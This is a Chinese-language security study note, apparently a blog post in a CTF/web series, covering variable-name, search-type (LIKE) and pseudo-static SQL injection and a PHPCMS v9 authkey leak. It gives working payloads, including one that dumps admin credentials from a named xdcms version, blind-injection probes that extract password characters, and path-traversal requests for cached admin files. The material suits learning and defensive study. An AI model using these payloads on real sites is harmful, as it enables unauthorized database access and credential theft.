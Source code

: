 ```yaml
---
layout:     post
title:      Web笔记（六）SQL注入之其他注入
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是补充常见数据库本身的注入以外的SQL注入。
date:       2020-11-29
author:     HouKC
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
---
```




## 0x01 变量名注入

有时候可能会在奇奇怪怪的地方可以注入，如post变量名可能出现如下，有点像字典一样的变量：

```
POST / HTTP 1.0
...
...

fields[truename]=Bob
```

或者

```
POST / HTTP 1.0
...
...

fields%5Btruename%5D=Bob
```

例如：xdcms某版本的修改会员资料处的姓名，就是这种注入漏洞，exp：

```
%60%3D%28select%20group_concat%28username%2C0x3a%2Cpassword%29%20from%20c_admin%20where%20id%3D1%29%23

（url解码为：`=(select group_concat(username,0x3a,password) from c_admin where id=1)#）
```

把上面这一段放在fields%5Btruename%5D的%5D前面，也就是如下

```
POST / HTTP 1.0
...
...

fields%5Btruename%60%3D%28select%20group_concat%28username%2C0x3a%2Cpassword%29%20from%20c_admin%20where%20id%3D1%29%23%5D
```
自行解一下码方便看，如下：
```
POST / HTTP 1.0
...
...

fields[truename`=(select group_concat(username,0x3a,password) from c_admin where id=1)#]
```
即可形成攻击。



## 0x02 搜索型注入 

- like
- 通配符 \*
- sql通配符 %%
- select * from news where id='%like $id %'

```
# 判断是否存在搜索型输入
id=2%' and 1=1 and '%'='     返回和单独输入2是一样的页面
id=2%' and 1=2 and '%'='     返回不同

# 判断是数据库类型
id=2%' and(select count(\*) from mssysaccessobjects)>0 and '%'='  //返回正常，access数据库

# 判断表名是否存在
id=2%' and(select count(\*) from admin_user)>0 and '%'='       //返回正常，存在admin_user表

# 判断字段名是否存在
id=2%' and(select count(username) from admin_user)>0 and '%'='   //返回正常，存在username字段
id=2%' and(select count(passeword) from admin_user)>0 and '%'='  //返回正常，存在password字段

# 判断字段长度
id=2%' and(select top 1 len(username) from admin_user)>4 and '%'='   //返回正常，username长度大于4
id=2%' and(select top 1 len(username) from admin_user)=5 and '%'='  //返回正常，username长度等于5

# 判断具体数据的单个字符
id=2%' and(select top 1 asc(mid(password,1,1))from admin_user)=55 and '%'='  //返回正常，则对应位置的ascii编码是对的，否则错误
```



## 0x03 伪静态注入

```
http://xx.com/xx.php/index/ndetails/class/news/htmls/moving/id/1131.html
http://xx.com/xx.php/index/ndetails/class/news/htmls/moving/id/1131
```

注入点在上面1131后面，也就是html文件名，如下：

```
http://xx.com/xx.php/index/ndetails/class/news/htmls/moving/id/1131' and 1=1.html
```

常出现此注入的框架：

- aspcms
- phpweb
- thinkphp

还有其他类型的伪静态如：

```
http://xxx.com/x_detail_id_1234.html
```

在网站后台可能相当于

```
http://xxx/com/x/detail.php?id=1234
```



## 0x04 phpv9 authkey注入

利用exp爆出authkey

```
api.php?op=get_menu&act=ajax_getlist&callback=aaaaa&parentid=0&key=authkey&cachefile=..\..\..\phpsso_server\caches\caches_admin\caches_data\applist&path=admin
```

或者以下

```
/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=662dCAZSAwgFUlUJBAxbVQJXVghTWVQHVFMEV1MRX11cBFMKBFMGHkUROlhBTVFuW1FJBAUVBwIXRlgeERUHQVlIUVJAA0lRXABSQEwNXAhZVl5V
```

即在目标网站根目录下输入/phpsso...全部内容，然后看返回的结果中包含一段auth_key和http链接，将其填充到phpv9 auth_key.php中对应的位置去，然后搭建本地php网站环境，将该文件放在网站根目录下，然后访问本地该文件，对本地该文件访问进行注入即可，相当于本地该文件作为中间人。

